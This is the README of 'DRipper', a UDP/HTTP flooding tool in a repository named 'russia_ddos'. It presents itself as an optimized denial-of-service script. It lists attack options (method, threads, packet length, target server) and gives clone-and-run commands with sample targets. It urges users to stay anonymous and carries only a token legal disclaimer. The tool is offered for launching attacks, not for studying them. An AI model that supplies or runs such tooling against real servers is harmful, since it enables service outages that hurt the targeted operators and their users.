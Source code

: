 # DRipper

DESCRIPTION
-----------

This is an optimized version of DRipper.
Here is original code: https://gist.github.com/scamp/33807688d0ebdcfbd4c29a4b992a8b54,
you can see there a lot of cons like extra requests to Facebook and validator.w3.com,
trying establishing connection with attacked resource (but there is no need in it if you want to send a UDP packet).
Also, the old version is inefficient: you need run several processes to have your processor busy.

## Usage

```bash

██████╗ ██████╗ ██╗██████╗ ██████╗ ███████╗██████╗
██╔══██╗██╔══██╗██║██╔══██╗██╔══██╗██╔════╝██╔══██╗
██║  ██║██████╔╝██║██████╔╝██████╔╝█████╗  ██████╔╝
██║  ██║██╔══██╗██║██╔═══╝ ██╔═══╝ ██╔══╝  ██╔══██╗
██████╔╝██║  ██║██║██║     ██║     ███████╗██║  ██║
╚═════╝ ╚═╝  ╚═╝╚═╝╚═╝     ╚═╝     ╚══════╝╚═╝  ╚═╝

It is the end user's responsibility to obey all applicable laws.
It is just like a server testing script and Your IP is visible.

Please, make sure you are ANONYMOUS!
     
Usage: python DRipper.py [options] arg

Options:
  -h, --help            show this help message and exit
  -p PORT, --port=PORT  port (default: 80)
  -t THREADS, --threads=THREADS
                        threads (default: 100)
  -r RANDOM_PACKET_LEN, --random_len=RANDOM_PACKET_LEN
                        Send random packets with random length (default: 1
  -l MAX_RANDOM_PACKET_LEN, --max_random_packet_len=MAX_RANDOM_PACKET_LEN
                        Max random packets length (default: 48)
  -m ATTACK_METHOD, --method=ATTACK_METHOD
                        Attack method: udp (default), http
  -s HOST, --server=HOST
                        Attack to server IP

Example: python DRipper.py -s 192.168.0.1 -p 80 -t 100
```

## How to Run

Ensure you have Python 3 installed. Then clone this repo and run DRipper.py with params you need

```bash
git clone https://github.com/alexmon1989/russia_ddos.git
cd russia_ddos

# run
python DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
# OR
python3 DRipper.py -s 127.0.0.1 -p 80 -t 100 -r 1 -m udp
```

# License

This project is distributed under the MIT License, see [LICENSE](./LICENSE) for more information.
